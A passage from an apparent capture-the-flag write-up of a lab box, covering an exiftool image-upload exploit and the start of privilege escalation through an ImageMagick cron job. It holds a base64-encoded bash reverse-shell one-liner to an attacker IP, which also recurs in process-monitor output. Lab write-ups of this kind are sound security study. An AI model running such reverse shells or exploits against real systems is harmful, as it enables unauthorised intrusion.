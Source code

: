     print(r.text[1442:-896])

    os.popen("rm 1.jpg 1.jpg_original payload payload.bzz exploit.djvu")

Using this script and encoding the payload as base64 we can get a reverse
shell on the box:

`python3 l.py 'echo -n 'YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC85MDAxIDA+JjEi' | base64 -d | bash'`

# User

We are the `www-data` user on the box. We run a few enumeration tools
(`linpeas`) but nothing pop out. We run
[pspy](https://github.com/DominicBreuker/pspy) to get the running process and
found that the script `/usr/local/bin/convert_images.sh` is running periodically
by the user with the UID 1000.

    :::text
    www-data@meta:/tmp$ ./pspy64
    ./pspy64
    done
    <SNIP>
    2022/01/28 08:01:44 CMD: UID=33   PID=5978   | bash
    2022/01/28 08:01:44 CMD: UID=33   PID=5975   | sh -c echo -n YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC85MDAxIDA+JjEi | base64 -d | bash
    2022/01/28 08:01:44 CMD: UID=33   PID=5974   | /usr/bin/perl -w /usr/local/bin/exiftool /var/www/dev01.artcorp.htb/metaview/uploads/phpnACkFs.jpg --system:all --exiftool:all -e
    2022/01/28 08:01:44 CMD: UID=33   PID=5973   | sh -c exiftool '/var/www/dev01.artcorp.htb/metaview/uploads/phpnACkFs.jpg' --system:all --exiftool:all -e
    <SNIP>
    2022/01/28 08:02:01 CMD: UID=0    PID=18991  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf
    2022/01/28 08:02:01 CMD: UID=0    PID=18993  | /usr/sbin/CRON -f
    2022/01/28 08:02:01 CMD: UID=0    PID=18994  | /usr/sbin/CRON -f
    2022/01/28 08:02:01 CMD: UID=0    PID=18995  | /bin/sh -c rm /tmp/*
    2022/01/28 08:02:01 CMD: UID=1000 PID=18996  | /bin/sh -c /usr/local/bin/convert_images.sh
    2022/01/28 08:02:01 CMD: UID=1000 PID=18997  | /usr/local/bin/mogrify -format png *.*
    2022/01/28 08:02:01 CMD: UID=1000 PID=18998  | pkill mogrify

Looking at the script we see that it convert images using `mogrify` which is part
of `ImageMagick`.


    :::text
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh
    <.htb/metaview$ cat /usr/local/bin/convert_images.sh
    #!/bin/bash
    cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
    pkill mogrify

There is also a vulnerability on `ImageMagick` that allow for
[shell injection](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html).
